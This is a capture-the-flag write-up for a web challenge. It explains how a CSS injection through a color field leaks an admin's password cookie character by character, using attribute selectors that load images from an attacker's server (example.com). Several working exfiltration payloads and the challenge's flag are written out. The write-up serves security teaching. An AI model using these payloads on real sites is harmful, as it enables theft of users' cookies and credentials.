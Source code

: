 # The Confused Deputy

Author: [roerohan](https://github.com/roerohan)

## Description

This website can be exploited with the help of CSS Injection.

## Requirements

- Docker: [Dockerfile](./Dockerfile)
- Node.js

## Sources

```
Wow that's a pretty color! Don't you think? Pick your favourite and show it to the admin on /admin.
```

## Exploit

This is a CSS injection challenge. In the page you open, you can see that there is an input box where you can enter a color, which gets applied as you click on submit. There's also a hidden field `password`, the value of which is taken from the cookie. Since the string is interpolated, you can do something like `blue}; input[type="password"][value^="c"] {background-image: url('https://example.com?c');`, which will send a request to `example.com?c`, if the first character of the password is `c`.
<br />

You may pass a long list of such CSS selectors, for all letters, for example. For example:

```css
input[type="password"][value^="a"] {background-image: url('https://example.com?a');}
input[type="password"][value^="b"] {background-image: url('https://example.com?b');}
input[type="password"][value^="c"] {background-image: url('https://example.com?c');}
...
```

This will therefore tell you which character matched, which you can see on your own server (here example.com). Once the first character is leaked, you can go ahead and try to leak the next character.

```css
input[type="password"][value^="ca"] {background-image: url('https://example.com?ca');}
input[type="password"][value^="cb"] {background-image: url('https://example.com?cb');}
input[type="password"][value^="cc"] {background-image: url('https://example.com?cc');}
...
```

An so on, until you find the entire password. You can test this on your browser by storing a cookie called `password` with the value `csictf`. Now pass the following to get a request on your server (replace example.com with your server).

```css
blue;} input[type="password"][value^="csictf"] {background-image: url('https://example.com?csictf');
```

Pass these payloads to `/admin` and you can leak the admin cookie `password`, which is the flag. The final payload with the help of which you can find the entire flag is:

```css
blue;} input[type="password"][value^="csictf{cssxss}"] {background-image: url('https://example.com?csictf{cssxss}');
```

<br />

The flag is:

```
csictf{cssxss}
```